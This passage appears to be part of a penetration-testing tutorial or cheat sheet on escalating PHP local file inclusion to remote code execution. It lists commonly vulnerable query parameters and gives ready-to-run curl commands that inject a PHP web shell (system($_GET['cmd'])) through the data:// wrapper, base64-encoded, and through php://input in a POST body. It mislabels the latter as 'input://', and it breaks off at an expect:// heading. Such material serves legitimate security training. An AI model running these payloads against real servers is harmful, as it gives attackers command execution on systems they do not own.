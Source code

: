 ```php
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

#### **Exploiting LFI for RCE**

#### **Data Wrapper (data://)**

The data:// wrapper allows inclusion of data directly into PHP scripts, making it ideal for injecting PHP code snippets and executing them on the server.

RCE via data://

PHP

```php
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id"
```

In this example:

We encode our PHP payload **`(<?php system($_GET["cmd"]); ?>) in Base64.`**

We pass it using data:// and specify text/plain;base64 as the content type.

#### **Input Wrapper (input://)**

The input:// wrapper allows PHP to read data from the standard input, typically used in POST requests. This wrapper is useful when the vulnerable parameter accepts POST data.

RCE via input:/

Shell

```php
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

Here:

We send a POST request with our PHP payload using php://input.

The vulnerable script interprets this input and executes the command specified in cmd.

#### **Expect Wrapper (expect://)**
